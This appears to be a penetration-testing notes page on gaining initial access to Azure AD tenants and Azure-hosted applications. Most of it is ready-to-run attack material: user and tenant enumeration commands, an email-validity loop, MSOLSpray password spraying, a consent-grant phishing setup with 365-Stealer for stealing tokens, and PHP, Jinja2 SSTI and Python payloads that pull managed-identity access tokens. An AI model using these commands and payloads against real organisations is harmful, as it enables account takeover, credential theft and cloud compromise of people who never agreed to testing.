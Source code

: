 ```yaml
---
title: Recon and Initial Access
description: The first step to Global Administrator
position: 2
---
```


# Recon and Initial Access

## Check if AzureAD is in use

### Manual

We can know if a enterprise is using Azure and has its own tenant querying several Microsoft services:

Knowing if the enterprise has an AAD:

```bash
http https://login.microsoftonline.com/getuserrealm.srf?login={{ Username user@domain.com }}&json=1 --body
```

An example output would be:

```json
{
    "CloudInstanceIssuerUri": "urn:federation:MicrosoftOnline",
    "CloudInstanceName": "microsoftonline.com",
    "DomainName": "rai.usc.es",
    "FederationBrandName": "Universidade de Santiago de Compostela",
    "Login": "user@rai.usc.es",
    "NameSpaceType": "Managed",
    "State": 4,
    "UserState": 1
}
```

Get Tenant ID

```bash
http https://login.microsoftonline.com/{{ Domain domain.com }}/.well-known/openid-configuration --body
```

The tenant ID can be found in many places inside the json returned

```json
{
    "authorization_endpoint": "https://login.microsoftonline.com/{TenantID}/oauth2/authorize",
    [...]
}
```

Check if email is valid

```bash
http POST https://login.microsoftonline.com/common/GetCredentialType Username="{{ Username user@domain.com }}" | jq '.IfExistsResult'
```

Response Codes
* 1 - User Does Not Exist on Azure as Identity Provider
* 0 - Account exists for domain using Azure as Identity Provider
* 5 - Account exists but uses different IdP other than Microsoft
* 6 - Account exists and is setup to use the domain and an IdP other than Microsoft

### [AADInternals](https://github.com/Gerenios/AADInternals)

> Note: This module only works in Windows (arm64 supported)

```bash
Install-Module AADInternals -Scope CurrentUser
Import-Module AADInternals
```

Get Tenant information, name, type...

```powershell
Get-AADIntLoginInformation -UserName {{ Username root@domain.com }}
```

Get Tenant Id

```powershell
Get-AADIntTenantID -Domain {{ Domain domain.com }}
```

Get Tentant domains

```powershell
Get-AADIntTenantDomains -Domain {{ Domain domain.com }}
```

Get all the information 

```powershell
Invoke-AADIntReconAsOutsider -DomainName {{ Domain domain.com }}
```

### [Microburst](https://github.com/NetSPI/MicroBurst)

MicroBurst includes functions and scripts that support Azure Services discovery, weak configuration auditing, and post exploitation actions such as credential dumping. It is intended to be used during penetration tests where Azure is in use.

> Note: This module requires windows becaus it uses AzureAD module which only supports Windows. You can try to run it using AzureADPreview but beware of possible errors

Installation:

```powershell
# Install-Module -Name Az -Scope CurrentUser -Repository PSGallery -Force
# Install-Module -Name AzureAD -Scope CurrentUser -Repository PSGallery -Force
# Install-Module -Name MSOnline -Scope CurrentUser -Repository PSGallery -Force
git clone https://github.com/NetSPI/MicroBurst
cd MicroBurst
Import-Module .\Microburst.psm1 # Takes a moment
```

Enumerate all subdomains for an organization

```powershell
Invoke-EnumerateAzureSubDomains -Base {{ Domain domain.com }} -Verbose
```

## Password spraying

Although this method is not recommended in production or a real assessment it is used in real world scenarios so we'll cover it here.

There are countless tools that can perform this, one of the most known ones is [MSOLSpray](https://github.com/dafthack/MSOLSpray)

```powershell
git clone https://github.com/dafthack/MSOLSpray
cd MSOLSpray
Import-Module ./MSOLSpray.ps1
```

You can check valid emails using this fancy oneliner

```powershell
cat ../emails.txt | %{
    http POST https://login.microsoftonline.com/common/GetCredentialType Username="$_" | jq -r 'select(.IfExistsResult!=1) | .Username'
}
```

Password spraying can be performed using the following command:

```powershell
Invoke-MSOLSpray -UserList ..\emails.txt -Password '{{ Password password }}' -Verbose
```

## O365 Illicit Consent Grant Phishing

First if possible we can check if users can delegate permissions

```powershell
(Get-AzureADMSAuthorizationPolicy).permissionGrantPolicyIdsAssignedToDefaultUserRole
# Expected result: ManagePermissionGrantsForSelf.microsoft-user-default-legacy
```

Then we need to create an application that has 'API permissions'; for a initial intrusion the following permissions would be enough:

* User.ReadBasic.All for Microsoft Graph
* user.read for Microsoft Graph

![App permissions](imgs/20220426000813.png)  

If we select some privileged permissions only privileged users will be able to log in into our application

After that it will be needed to create a secret and note both the secret and the application (client) ID:

![App secret](imgs/20220426000909.png)

For phishing we will use [365-Stealer](https://github.com/AlteredSecurity/365-Stealer) but there are other tools that can perform the same attack

![Setting up variables in 365-Stealer](imgs/20220426001119.png)

The redirect_url of the application need to be configured to the known public ip of the server that will run the tool

Then, by clicking in run it will show a phishing link. When the user visits the link and allows access to its resources it will be redirected to the url and the token will be stole.

If the target user is admin, more permissions can be requested 

![Permissions requested for admin](imgs/20220426001549.png)

With that permissions we should be able to upload files to the onedrive, read outlook mails and perform other high privileged operations

## Pwning Azure Applications 

### Unrestricted php upload

Usually there are several environment variables that always exists in Azure machines; for example:

* IDENTITY_HEADER
* IDENTITY_ENDPOINT

The environment variables can be found by executing commands or reading files

```
env
printenv
cat /proc/self/environ
```

If we can execute code and access its variables it would be possible to request a Token for the machines

```php
<?php 
// Requesting token for ARM
system('curl "$IDENTITY_ENDPOINT?resource=https://management.azure.com/&api-version=2017-09-01" -H secret:$IDENTITY_HEADER');
?>
```

### SSTI

Usually it is possible to elevate template injection to remote code execution as well

The following is a Jinja2 example

```jinja
{% for x in ().__class__.__mro__[1].__subclasses__() %}
    {% if "Popen" in x.__name__ %}
        {{x('curl "$IDENTITY_ENDPOINT?resource=https://management.azure.com&api-version=2017-09-01" -H secret:$IDENTITY_HEADER',shell=True,stdout=-1).communicate()}}
    {% endif %}
{% endfor %}
```

### Remote command execution

As always when we have code execution it will be possible to generate a token

```python
import os
import json

IDENTITY_ENDPOINT = os.environ['IDENTITY_ENDPOINT']
IDENTITY_HEADER = os.environ['IDENTITY_HEADER']

cmd = 'curl "%s?resource=https://management.azure.com/&api-version=2017-09-01" -H secret:%s' % (IDENTITY_ENDPOINT, IDENTITY_HEADER)

val = os.popen(cmd).read()

print("[+] Management API")
print("Access Token: "+json.loads(val)["access_token"])
print("ClientID: "+json.loads(val)["client_id"])

cmd = 'curl "%s?resource=https://graph.microsoft.com/&api-version=2017-09-01" -H secret:%s' % (IDENTITY_ENDPOINT, IDENTITY_HEADER)

val = os.popen(cmd).read()
print("\r\n[+] Graph API")
print("Access Token: "+json.loads(val)["access_token"])
print("ClientID: "+json.loads(val)["client_id"])
```